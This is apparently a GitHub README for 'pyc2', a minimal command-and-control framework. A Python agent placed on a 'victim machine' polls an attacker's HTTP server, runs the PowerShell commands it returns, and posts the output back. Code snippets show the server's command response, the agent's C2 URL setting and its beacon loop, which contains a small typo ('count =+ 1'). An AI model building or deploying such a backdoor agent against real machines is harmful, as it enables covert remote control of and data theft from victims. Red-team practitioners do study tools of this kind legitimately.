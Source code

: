 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage

For now you can only ran a command at a time. Open server.py and enter the command you want to be in the http response as shown below

``` 
        response_string = "whoami"

        # Set the response headers
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.send_header("Content-Length", len(response_string))
        self.end_headers()

        #send response string 
        self.wfile.write(response_string.encode('utf-8'))
```

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
if command_to_run:
            output = run_powershell_command(command_to_run)     
        time.sleep(10)  
        count =+ 1
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
